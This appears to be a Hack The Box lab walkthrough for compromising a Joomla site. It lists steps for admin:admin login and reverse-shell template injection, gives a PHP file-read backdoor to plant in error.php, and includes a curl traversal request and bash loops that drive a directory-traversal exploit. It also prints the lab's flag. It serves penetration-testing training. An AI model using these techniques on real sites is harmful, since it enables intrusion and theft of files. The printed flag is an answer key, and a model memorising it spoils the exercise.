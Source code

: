 ### Template Injection Methodology Summary

**Key Steps for HTB Lab:**
1. **VHost Configuration** - Add dev.inlanefreight.local to /etc/hosts
2. **Admin Authentication** - Login with admin:admin credentials  
3. **Template Access** - Extensions → Templates → Protostar → error.php
4. **Shell Injection** - Add reverse shell PHP code and save
5. **Listener Setup** - Start netcat listener on attacking machine
6. **Shell Activation** - Navigate to error.php to trigger callback
7. **Flag Discovery** - Navigate filesystem to find flag file
8. **Answer Extraction** - Read flag content: j00mla_c0re_d1rtrav3rsal!

### Alternative Lab Solutions

#### Template Injection Method (If Traversal Fails)
```php
# If directory traversal is patched, use template injection
# Navigate to Templates → error.php and inject:

<?php
if (isset($_GET['read_file'])) {
    $file = $_GET['read_file'];
    if (file_exists($file)) {
        echo "<pre>" . htmlspecialchars(file_get_contents($file)) . "</pre>";
    } else {
        echo "File not found: $file";
    }
    exit();
}
?>

# Access flag via:
curl "http://dev.inlanefreight.local/templates/protostar/error.php?read_file=../../../flag.txt"
```

#### Comprehensive File Discovery
```bash
# Search for flag files with various extensions
for ext in txt md flag; do
    echo "=== Searching for .$ext files ==="
    python2.7 joomla_dir_trav.py \
      --url "http://dev.inlanefreight.local/administrator/" \
      --username admin \
      --password admin \
      --dir "flag.$ext"
done

# Search common flag locations
locations=(
    "flag.txt"
    "FLAG.txt"
    "flag"
    "root_flag.txt"
    "user_flag.txt"
)

for location in "${locations[@]}"; do
    echo "=== Checking: $location ==="
    python2.7 joomla_dir_trav.py \
      --url "http://dev.inlanefreight.local/administrator/" \
      --username admin \
      --password admin \
      --dir "$location"
done
```